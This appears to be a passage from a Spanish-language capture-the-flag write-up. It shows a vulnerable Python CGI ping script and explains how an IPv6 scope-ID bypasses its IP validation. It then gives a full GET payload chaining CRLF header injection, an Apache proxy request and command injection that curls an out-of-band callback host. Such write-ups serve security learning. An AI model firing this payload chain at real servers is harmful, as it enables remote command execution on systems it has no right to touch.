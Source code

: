 ```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')

try:
    count = 1  # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')

print('Content-Type: text/html')
print()
```

Se observa que se intenta validar target con ip_address() de la librería ipaddress de Python, para asegurarse de que sea una IP válida, podemos inyectar comandos usando $, ya que Apache está ejecutando el CGI, entonces la inyección se da antes siquiera de que se llegue al código Python. Solo basta con proporcionar una IP valida, ya sea ipv4 o ipv6.

Usaremos en este caso una ipv6 y el caracter especial $ para ejecutar comandos:

```bash
::1%$(command)
```
Nuestro payload completo se traduce a:

```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30aqsmhrfmvylkqdnuqyqqpqvhktneu42h2.oast.fun?testt)%260name=%0D%0A%0D%0A
```

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-15.png)
